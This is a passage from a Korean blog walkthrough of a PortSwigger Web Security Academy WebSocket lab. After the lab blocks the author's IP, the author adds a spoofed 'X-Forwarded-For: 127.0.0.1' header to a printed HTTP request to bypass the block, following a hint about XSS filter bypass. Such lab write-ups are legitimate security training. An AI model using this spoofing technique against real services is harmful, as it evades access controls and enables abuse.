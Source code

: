 이번에도 400 Bad Request 응답이 돌아왔다. 
```
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 16

"Protocol error"
```

거기에다 몇 번더 이것저것 테스트해보니 주소가 블락되었다는 메세지가 표시되었다. 

![address blocked](/images/burp-academy-websocket-2-2.png)

음.. 잘 모르겠다. 문제 힌트를 봐본다. 다음과 같이 되어 있다. 

```
If you're struggling to bypass the XSS filter, try out our XSS labs.
Sometimes you can bypass IP-based restrictions using HTTP headers like X-Forwarded-For.
```

`X-Forwarded-For`로 IP주소 제한을 우회할 수 있다고 한다. 아마 내 IP주소에 제한이 걸린 것 같으므로 이 것을 써보자. 다음과 같이 `X-Forwarded-For: 127.0.0.1`를 추가했다. 

```http
GET /chat HTTP/2
Host: 0ad500380358cb988208ddd0001e00a2.web-security-academy.net
Cookie: session=HsOu21B0a0cWZGpGn636upnuRpZGSwSi
Cache-Control: max-age=0
Sec-Ch-Ua: "Google Chrome";v="111", "Not(A:Brand";v="8", "Chromium";v="111"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad500380358cb988208ddd0001e00a2.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
X-Forwarded-For: 127.0.0.1


```
